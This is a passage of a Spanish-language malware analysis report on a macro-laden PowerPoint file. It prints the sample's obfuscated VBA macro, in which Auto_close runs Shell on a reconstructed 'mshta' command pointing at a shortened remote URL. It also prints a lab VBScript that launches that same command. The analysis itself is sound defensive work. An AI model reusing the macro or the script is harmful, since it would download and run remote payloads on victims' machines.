Una vez identificados los **streams VBA** relevantes con `oledump.py`, vamos a extraer cada módulo de macro de forma individual. Para esta tarea pueden utilizarse tanto `oledump.py` como `olevba`, aunque en este caso elegimos `oledump.py` porque permite seleccionar streams concretos mediante la opción `-s`.

La opción `-v` permite extraer el código `VBA` descomprimido y mostrarlo en formato legible. De esta forma, guardamos cada módulo en un fichero independiente para su análisis posterior, comparación, documentación o desofuscación manual.

En la muestra analizada, el fichero se referencia mediante una variable para simplificar los comandos. A continuación, se extraen los módulos `VBA` identificados previamente:
```bash
└─$ python3 oledump.py -s 5 -v 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt > Morgan.vba
                      
└─$ python3 oledump.py -s 22 -v 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt > gorcia1.vba
                      
└─$ python3 oledump.py -s 23 -v 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt > gorcia2.vba
                      
└─$ python3 oledump.py -s 24 -v 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt > gorcia3.vba
                      
└─$ python3 oledump.py -s 25 -v 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt > gorcia4.vba
                      
└─$ python3 oledump.py -s 26 -v 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt > gorcia5.vba
``` 
Es importante mantener la extensión `.vba` en todos los ficheros extraídos, ya que el contenido corresponde a módulos de `Visual Basic for Applications`. Aunque algunos comandos podrían guardarse accidentalmente con extensión `.vbs`, en este caso no se trata de `scripts VBScript` independientes, sino de código `VBA` embebido en un documento Office.

Esta extracción permite conservar cada módulo por separado y facilita el análisis del flujo de ejecución. En esta muestra, los módulos más relevantes son `Morgan.vba`, `gorcia2.vba` y `gorcia3.vba`, ya que contienen la rutina de autoejecución, la llamada a Shell y la construcción del comando final.

<mark>**Conclusión:** La extracción confirma que el comportamiento sospechoso se concentra en los módulos `VBA` del documento. No se extraen objetos `OLE` externos ni payloads embebidos en esta fase; el artefacto principal de interés es el código `VBA` que reconstruye y ejecuta el comando mshta hacia una `URL` remota.</mark>


## **5.3 Validacion de artefactos extraidos**

Vamos a comprobar el tipo de los ficheros extraídos:
```
└─$ file *.vba
gorcia1.vba:                                                          ASCII text
gorcia2.vba:                                                          ASCII text
gorcia3.vba:                                                          ASCII text
gorcia4.vba:                                                          ASCII text
gorcia5.vba:                                                          ASCII text
Morgan.vba:                                                           ASCII text
salida.vba:                                                           ASCII text
```
Aunque los módulos `VBA` suelen identificarse como texto plano o datos `ASCII`, esta comprobación permite descartar que alguno de los artefactos extraídos sea en realidad un binario, un contenedor `OLE`, un `ZIP` u otro tipo de fichero inesperado.

Vamos a calcular hashes de los artefactos extraídos para mantener trazabilidad durante el análisis:
```
└─$ sha256sum *
b7e6274675d1a3ab8cce5a256aef753894a9f43742c3f97e02fe65ca9e3a8fce  gorcia1.vba
124907ba66b8e5ae6276aa3ee47d700a03836008bc6cd8d81f018474bc275a15  gorcia2.vba
e5b30c9095355d10738bd07e4a9e65d947b24f5e83f2f4e78b558eebb35f88d6  gorcia3.vba
bb15fd94bf68a5a89b46c891bdb88786ee71526ccb78e5ee9a4738287320dcd4  gorcia4.vba
f6402328308f25041dc704eeac139e00d3314361a54bcc7b4340c09c2870edd3  gorcia5.vba
c727ccb79de290c66232cc38f8284ce442be36bbd4af93c2332789d7f328e9c3  Morgan.vba
37aae6c64baaeadd1e44916d4631d335ded70d7aed3bdf81eb790abd1aff3407  salida.vba
```


<mark>**En conclusión:** La validación de artefactos extraídos confirma que los streams seleccionados contienen los módulos `VBA` responsables de la lógica sospechosa. No se observan artefactos binarios adicionales extraídos en esta fase. El elemento principal de interés sigue siendo el código `VBA` que reconstruye y ejecuta `mshta` con una `URL` remota.</mark>


# **6. Análisis de artefactos extraidos**

En esta muestra, los elementos que deberían aparecer durante la validación son:
| Artefacto | Validación esperada |
|---|---|
| `Morgan.vba`  | Contiene la rutina `Auto_close`. |
| `gorcia1.vba` | Devuelve la cadena parcial `"m"`. |
| `gorcia2.vba` | Contiene la llamada `Shell(kokoko)`. |
| `gorcia3.vba` | Construye la cadena con `mshta` y la URL remota. |
| `gorcia4.vba` | Devuelve la cadena parcial `"s"`. |
| `gorcia5.vba` | Devuelve la cadena parcial `"h"`. |


Extraemos un único fichero con todos los módulos de macro para facilitar la reconstrucción del flujo de ejecución completo. Para ello utilizamos `oledump.py` con la opción `-s a`, que permite extraer todos los `streams VBA` disponibles, junto con la opción `-v`, que muestra el código `VBA` descomprimido en formato legible:
```
└─$ python3 oledump.py -s a -v 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt  > salida.vba 
```

El contenido obtenido en `salida.vba` es el siguiente:
```
Attribute VB_Name = "Morgan"
Sub Auto_close()
klijk
End Sub
Attribute VB_Name = "gorcia1"
Function opopo()

opopo = "m"

End Function
Attribute VB_Name = "gorcia2"
Function klijk()

Shell (kokoko)
End Function
Attribute VB_Name = "gorcia3"
Function kokoko()

kokoko = opopo + mksmdas + jdsakdaw + "ta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos"
End Function
Attribute VB_Name = "gorcia4"
Function mksmdas()

mksmdas = "s"

End Function
Attribute VB_Name = "gorcia5"
Function jdsakdaw()

jdsakdaw = "h"

End Function
```

La salida conjunta permite observar claramente la relación entre los distintos módulos del proyecto `VBA`. El módulo `Morgan` contiene el procedimiento `Auto_close`, que actúa como punto de entrada automático y llama a la `función klijk`.
```
Sub Auto_close()
klijk
End Sub
```

La `función klijk`, ubicada en el módulo `gorcia2`, contiene la llamada a `Shell`:
```
Function klijk()

Shell (kokoko)
End Function
```

Esta llamada es especialmente relevante, ya que permite ejecutar un comando del sistema operativo desde la macro. El argumento pasado a `Shell` no es una cadena fija, sino el resultado de la `función kokoko`.

La `función kokoko`, definida en el módulo `gorcia3`, reconstruye dinámicamente el comando a ejecutar:
```
Function kokoko()

kokoko = opopo + mksmdas + jdsakdaw + "ta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos"
End Function
```


Para ello utiliza tres funciones auxiliares repartidas en distintos módulos:
```
opopo    → "m"
mksmdas  → "s"
jdsakdaw → "h"
```

Al concatenar estos valores con el fragmento restante de la cadena, se reconstruye el comando completo:
```
mshta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```

El flujo de ejecución completo queda representado de la siguiente forma:
```
Auto_close → klijk → Shell(kokoko) → mshta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```

Este resultado confirma que el proyecto `VBA` utiliza una técnica sencilla de ofuscación basada en la fragmentación y concatenación de cadenas. El comando mshta no aparece escrito directamente como una única cadena, sino que se reconstruye mediante varias funciones auxiliares con nombres no descriptivos.

<mark>**Conclusión:** La extracción del stream `VBA` completo confirma la lógica observada en los módulos individuales. La muestra contiene una macro de autoejecución que invoca `Shell`, reconstruye dinámicamente el comando `mshta` y apunta a una `URL` remota acortada y parcialmente ofuscada.</mark>


# **7. Correlación de cadenas relevantes**
La búsqueda de cadenas ya se ha realizado durante el apartado de detección de ofuscación. En esta fase no se repite el análisis completo, sino que se correlacionan las cadenas relevantes con los artefactos extraídos.

Los principales indicadores localizados fueron:
- `Shell`
- `http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos`
- referencias a `VBE7.DLL`
- referencias a `MSO.DLL`
- fragmentos asociados a la reconstrucción de `mshta`

Tras extraer el código `VBA`, se confirma que la cadena más relevante no aparece como comando completo en bruto, sino que se reconstruye mediante concatenación:

```text
opopo + mksmdas + jdsakdaw + "ta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos"
```

El resultado final es:
```
mshta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```

Por tanto, la búsqueda de strings queda correlacionada con el código `VBA extraído`: las cadenas observadas pertenecen al flujo de ejecución de la macro y no a un payload binario embebido independiente.


# **8. Conclusiones del análisis estático**

El análisis estático de la muestra permite concluir que el fichero corresponde a un documento Microsoft PowerPoint clásico en formato `.ppt`, basado en un contenedor `OLE/CFBF`. Esta identificación se ha confirmado mediante herramientas como `file`, `xxd`, `ExifTool`, `oleid` y `oledump.py`, descartando que se trate de un paquete `OOXML/ZIP` renombrado.

La muestra contiene un proyecto `VBA` embebido dentro del contenedor `OLE`. Este proyecto está formado por varios módulos, entre ellos `Morgan`, `gorcia1`, `gorcia2`, `gorcia3`, `gorcia4` y `gorcia5`. Los nombres de los módulos y funciones no son descriptivos, lo que es coherente con una intención de dificultar la lectura directa del flujo de ejecución.

El principal indicador de riesgo identificado es la presencia de una rutina de autoejecución:
```
Sub Auto_close()
klijk
End Sub
```
Esta rutina llama a la `función klijk`, que ejecuta la instrucción `Shell(kokoko)`. La función `Shell` permite lanzar comandos del sistema operativo desde `VBA`, por lo que representa un indicador técnico de alto riesgo en el contexto de un documento Office.

La `función kokoko` construye dinámicamente el comando que será ejecutado. Para ello utiliza varias funciones auxiliares que devuelven caracteres individuales:
```
opopo    → "m"
mksmdas  → "s"
jdsakdaw → "h"
```
Al concatenar estos fragmentos con el resto de la cadena, se reconstruye el siguiente comando:
```
mshta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```
Este comportamiento es especialmente relevante porque mshta.exe es una utilidad legítima de Windows que puede ser abusada por malware para ejecutar contenido remoto. El uso de una URL acortada mediante `j.mp` y la presencia de `%20%20` dentro de la dirección refuerzan la hipótesis de que la macro intenta ocultar parcialmente el destino real o dificultar su análisis estático.

Durante la comprobación de ofuscación se identificó una técnica sencilla pero efectiva: fragmentación y concatenación de cadenas. El comando mshta no aparece completo en una única cadena, sino que se reconstruye en tiempo de ejecución mediante funciones auxiliares. No se han identificado capas adicionales relevantes de ofuscación avanzada, como `Base64` claramente decodificable, secuencias `\xNN`, payloads comprimidos, blobs binarios embebidos o cadenas decodificadas por floss.

La revisión con `binwalk`, `oleobj` y las búsquedas de cadenas no ha revelado la existencia de un payload binario incrustado ni objetos `OLE` extraíbles independientes. Esto sugiere que la muestra no contiene necesariamente el payload final dentro del propio PowerPoint, sino que actúa como un lanzador o downloader, delegando la siguiente fase de la cadena de infección en un recurso remoto.

**Los indicadores principales extraídos durante el análisis estático son:**
| Tipo | Indicador |
|---|---|
| Formato | Documento `.ppt` OLE/CFBF |
| Macros | Proyecto VBA embebido |
| Autoejecución | `Auto_close` |
| Ejecución de comandos | `Shell(kokoko)` |
| Binario abusado | `mshta` |
| URL remota | `http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos` |
| Técnica de ofuscación | Fragmentación y concatenación de cadenas |
| Objetos embebidos | No se identifican objetos OLE extraíbles con `oleobj` |
| Payload embebido | No se detecta payload binario evidente |


<mark>**En conclusión:** El análisis estático permite clasificar la muestra como un documento PowerPoint malicioso o altamente sospechoso. La evidencia principal es la presencia de macros VBA con autoejecución, ejecución de comandos mediante Shell, reconstrucción dinámica de mshta y referencia a una URL remota acortada. Aunque no se ha confirmado la ejecución real del comportamiento, los hallazgos estáticos son suficientes para justificar una fase de análisis dinámico controlado, orientada a verificar si al interactuar con el documento se lanza mshta.exe, se genera tráfico de red y se intenta descargar o ejecutar contenido adicional.</mark>

# **9. Análisis Dinámico**

El análisis dinámico se realiza en una máquina virtual Windows aislada, con herramientas de monitorización de procesos, sistema de ficheros, registro y red. El objetivo es observar el comportamiento de la muestra al abrir el documento powerpoint.

## **9.1 Preparación de la máquina virtual**
Se utilizaron las siguientes herramientas:
```
Process Monitor  → monitorización de procesos, ficheros, registro y red
Process Explorer → inspección de procesos, PID, PPID y líneas de comandos
Regshot          → comparación de cambios en registro y sistema
Wireshark        → captura de tráfico de red
Office 2003      → entorno compatible para la apertura del documento PowerPoint `.ppt` y la ejecución de macros VBA.
```

### **9.1.1 Process Monitor**
**Ejecutamos Process Monitor y establecemos los siguientes filtros:**
```
Process Name is POWERPNT.EXE      Include
Process Name is mshta.exe         Include
Operation is Process Create       Include
Operation is TCP Connect          Include
```

### **9.1.2 Process Explorer**
Configuración para Process Explorer:
```
Run as administrator
View > Select Columns > PID, Parent PID, Command Line, Image Path, Verified Signer
```


### **9.1.3 Regshot**
Tomamos dos snapshot, una previa y otra posterior a la ejecución para compararlas.


### **9.1.4 Wireshark**
Filtros recomendados:
```
dns or http

```

### **9.1.5 Microsoft Office vulnerable**
Buscamos una versión antigua del programa, en este caso un Microsoft Office 2003.


### **9.1.6 Modificación de hosts**
Vamos a engañar a la muestra para que crea que el servidor remoto está activo.  La macro intenta ejecutar:
```
mshta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```

El dominio real que interesa redirigir es:
```
j.mp
```

Modificamos el fichero hosts de la VM Windows para redirigir j.mp a un servidor controlado. El fichero está en:
```
C:\Windows\System32\drivers\etc\hosts
```

Lo abrimos como administrador y añadimos:
``` 
<ip de la MV> j.mp
```
Esto hace que cualquier petición a `j.mp` apunte a nuestra propia VM.

Después levantamos un servidor HTTP local en el puerto 80:
```
mkdir C:\lab\servidor
cd C:\lab\servidor
python3 -m http.server 80 --bind 0.0.0.0
```
Si queremos servir una ruta concreta, creamos un fichero con el nombre esperado:
``` 
C:\lab\servidor\asdaxasdasxasdasdsddodkasodkaos
```
Con esto, cuando mshta intente acceder a:
``` 
http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
``` 
la petición debe ir contra nuestro servidor local.


Comprobamos que funciona. Desde otra terminal:
```
curl.exe -v "http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos"
```



## **9.2 Ejecución inicial de la muestra**

**Ejecutamos el documento pero no se ejecuta el script**   





Aunque hemos configurado la seguridad de macros en nivel bajo, las opciones `Macros` y `Editor de Visual Basic` permanecieron deshabilitadas en PowerPoint. Esto indica que el entorno Office utilizado no permite acceder al proyecto VBA, probablemente por ausencia del componente `Visual Basic for Applications` o por tratarse de una instalación limitada.

**Por este motivo, no ha sido posible invocar manualmente la macro desde el editor de PowerPoint.** El análisis dinámico se continúa validando la segunda fase reconstruida estáticamente, es decir, la ejecución controlada de `mshta.exe` con la URL identificada.

**Si intentamos ejecutar el script extraido de la muestra, también se produce un error:**  



**La `salida.vba` no es un VBScript válido.** Es código VBA extraído de Office. La línea que falla es:
```
Attribute VB_Name = "Morgan"
```

Esa línea es metadato interno de un módulo `VBA`. `PowerPoint/VBA` la entiende, pero `Windows Script Host` (`wscript.exe`) no. Por eso aparece:
```
No coinciden los tipos: 'Attribute'
```

Además, esta línea tampoco es equivalente en `VBScript`:
```
Shell (kokoko)
```

`Shell` existe en `VBA`, pero en `VBScript` normalmente se usa:
```
CreateObject("WScript.Shell").Run
```

**Opción auxiliar: creamos un VBS equivalente**
Sólo para reproducir la segunda fase en laboratorio, vamos crear un script nuevo, no usaremos el extraído directamente de la muestra. Generamos un nuevo script `emulacion_mshta.vbs`:
```
Function opopo()
    opopo = "m"
End Function

Function mksmdas()
    mksmdas = "s"
End Function

Function jdsakdaw()
    jdsakdaw = "h"
End Function

Function kokoko()
    kokoko = opopo() & mksmdas() & jdsakdaw() & "ta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos"
End Function

Set sh = CreateObject("WScript.Shell")
sh.Run kokoko(), 0, False
```


Lo ejecutamos con `cscript.exe` para ver errores en consola:
```
cscript.exe //nologo C:\Users\usuario\Desktop\emulacion_mshta.vbs
```

**Y así ya podemos ver lo que intenta hacer este malware:**









Eso confirma que el script auxiliar lanza `mshta.exe` y que `mshta.exe` intenta conectar con el dominio `j.mp` en el puerto `80`. 


**Ahora vemos la petición HTTP GET:**  



# **10. Conclusiones**
El análisis de la muestra permite concluir que el fichero corresponde a un documento Microsoft PowerPoint clásico en formato `.ppt`, basado en un contenedor `OLE/CFBF`. La muestra contiene un proyecto `VBA` embebido con varios módulos de macro, entre ellos `Morgan`, `gorcia1`, `gorcia2`, `gorcia3`, `gorcia4` y `gorcia5`.

El análisis estático identifica una cadena de ejecución sospechosa basada en una rutina Auto_close, una llamada a Shell y la reconstrucción dinámica del comando `mshta`. La macro utiliza funciones auxiliares para dividir la cadena `mshta`, evitando que el comando completo aparezca directamente en texto claro.

El comando reconstruido es:
```
mshta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```

Este comportamiento es compatible con un documento ofimático malicioso de tipo lanzador o downloader. La muestra no contiene un payload binario embebido evidente, sino que delega la siguiente fase de ejecución en un recurso remoto solicitado mediante `mshta.exe`.

Durante el análisis dinámico no se consiguió confirmar la ejecución automática de la macro desde PowerPoint, ya que el entorno Office utilizado mantenía deshabilitadas las opciones de macros y editor VBA. No se observó que `POWERPNT.EXE` lanzara `mshta.exe` durante la apertura y cierre del documento.

Sin embargo, se validó de forma auxiliar la segunda fase reconstruida estáticamente. Para ello se creó un script equivalente que reproduce la lógica de concatenación y ejecución identificada en la macro. Esta prueba permitió confirmar que el comando reconstruido lanza `mshta.exe` y genera una conexión `HTTP` hacia el dominio `j.mp`, redirigido en laboratorio hacia un servidor local.

Wireshark confirmó la petición `HTTP GET` hacia la ruta:
```
/asdaxasdasxasdasdsddodkasodkaos
```
y Process Monitor confirmó la conexión `TCP` de `mshta.exe` hacia `j.mp:80`.

Por tanto, aunque la ejecución automática desde PowerPoint no pudo confirmarse en este entorno concreto, el análisis estático y la validación dinámica auxiliar permiten clasificar la muestra como maliciosa o altamente sospechosa. El comportamiento identificado es consistente con un documento PowerPoint diseñado para ejecutar `mshta.exe` y contactar con una URL remota ofuscada parcialmente mediante concatenación de cadenas y `URL` encoding.